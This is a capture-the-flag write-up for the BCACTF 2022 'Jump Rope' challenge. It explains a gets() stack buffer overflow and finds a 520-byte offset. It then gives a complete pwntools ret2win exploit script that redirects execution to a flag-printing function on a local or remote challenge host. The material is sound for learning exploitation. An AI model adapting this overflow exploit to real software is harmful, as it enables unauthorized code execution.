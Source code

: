 # BCACTF 3.0 2022: Jump Rope

!['challenge'](./JumpRope.png)


## Description

Here at BCA, we take fitness very seriously. Lately, our gym teachers have been stressing jumproping as cardio... I'm not too good at it yet though, but I think you might be able to show me how it's done!

I did download the challenge files 

First lets run checksec :

```sh
Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

NX enabled : will prevent shellcode execution

Running the binary

!['challenge'](./challenge.png)



After seeing the souce code we have : 


```c
void a() {
    FILE *fptr = fopen("flag.txt", "r");
    char flag[100];
    if(fptr == NULL){
        printf("\nLooks like we've run out of jump ropes...\n");
        printf("Challenge is misconfigured. Please contact admin if you see this.\n");
    }

    fgets(flag, sizeof(flag), fptr);
    puts(flag);
}
```

This function will give us the flag if we call it, but as we can see its not called any where in the program, so our main goal is to call this function


Next we have this function :

```c
void jumprope(){
    char arr[500];
    printf("\nBetter start jumping!\n");
    gets(arr);
    printf("Woo, that was quite the workout wasn't it!\n");
}
```

We know that the dangerous part here is :

```c
 gets(arr);
```
 

We will use cyclic from gef tools to know the exact offset, as we can see in the source code the buffer size is 500 so we will use a value above that

cyclic 600 -n 8


-n 8 : cause we have a 64 bits (not that important)

```sh
$rsp   : 0x007fffffffdce8  →  "paaaaaacqaaaaaacraaaaaacsaaaaaactaaaaaacuaaaaaacva[...]"
$rbp   : 0x636161616161616f ("oaaaaaac"?)
$rsi   : 0x1               
$rdi   : 0x007ffff7f9fa70  →  0x0000000000000000
$rip   : 0x00000000401259  →  <jumprope+61> ret 
```

$rip (64-bit Instruction Pointer) as we can see here we didn't override it, well 64 bits binaries have some differences, it will not allow a malformed address to go into the stack in the first place


Lets find the offset :

```sh
gef➤  pattern offset $rsp
[+] Searching for '$rsp'
[+] Found at offset 520 (little-endian search) likely
```

In order to exploit this we need


'A' * 520  +  the address of the function where we want our instruction pointer to point to.


the address of the a() function we can get it from gdb by typing :

```sh
gef➤  disas a
Dump of assembler code for function a:
   0x00000000004011b6 <+0>:	endbr64 
   0x00000000004011ba <+4>:	push   rbp
   0x00000000004011bb <+5>:	mov    rbp,rsp
   0x00000000004011be <+8>:	sub    rsp,0x70
   0x00000000004011c2 <+12>:	lea    rsi,[rip+0xe3f]        # 0x402008
   0x00000000004011c9 <+19>:	lea    rdi,[rip+0xe3a]        # 0x40200a
   0x00000000004011d0 <+26>:	call   0x4010c0 <fopen@plt>
   0x00000000004011d5 <+31>:	mov    QWORD PTR [rbp-0x8],rax
   0x00000000004011d9 <+35>:	cmp    QWORD PTR [rbp-0x8],0x0
   0x00000000004011de <+40>:	jne    0x4011f8 <a+66>
   0x00000000004011e0 <+42>:	lea    rdi,[rip+0xe31]        # 0x402018
   0x00000000004011e7 <+49>:	call   0x401080 <puts@plt>
   0x00000000004011ec <+54>:	lea    rdi,[rip+0xe55]        # 0x402048
   0x00000000004011f3 <+61>:	call   0x401080 <puts@plt>
   0x00000000004011f8 <+66>:	mov    rdx,QWORD PTR [rbp-0x8]
   0x00000000004011fc <+70>:	lea    rax,[rbp-0x70]
   0x0000000000401200 <+74>:	mov    esi,0x64
   0x0000000000401205 <+79>:	mov    rdi,rax
   0x0000000000401208 <+82>:	call   0x4010a0 <fgets@plt>
   0x000000000040120d <+87>:	lea    rax,[rbp-0x70]
   0x0000000000401211 <+91>:	mov    rdi,rax
   0x0000000000401214 <+94>:	call   0x401080 <puts@plt>
   0x0000000000401219 <+99>:	nop
   0x000000000040121a <+100>:	leave  
   0x000000000040121b <+101>:	ret    
End of assembler dump.
```

This is the address of a() 

```python
0x00000000004011b6 <+0>:	endbr64 
```



So the exploit will be : 


```python
import pwn
import argparse

parser = argparse.ArgumentParser()

parser.add_argument("-r", "--remote", help="perform the attack on the remote target",
                    action="store_true")
args = parser.parse_args()
if args.remote :
    p = pwn.remote('bin.bcactf.com', 49177)
else:
    p = pwn.process("./jumprope")


## cause of the endbr64 (google it) this didnt work when i tried this localy but i it work on the remote server
#new_rip = pwn.p64(0x00000000004011b6)
 
new_rip = pwn.p64(0x00000000004011bb) # *a+5
 
offset = 520  

payload = b"".join(
    [
        b"A" * offset,
        new_rip
    ]
)
  
print(p.recvuntil('jumping!'.encode()).decode('utf-8'))

p.sendline(payload)

print(p.recv().decode('utf-8'))

p.interactive()
```

## Demo

!['demo'](exploit.gif)

I didn't solve this challenge during the competition because of the "endbr64" but the  exploit does work on the remote server except i didn't try that only after the CTF did end 💢😤


Lesson learned from here is that you should run your exploit on the remote target even if it's not working locally 🤓


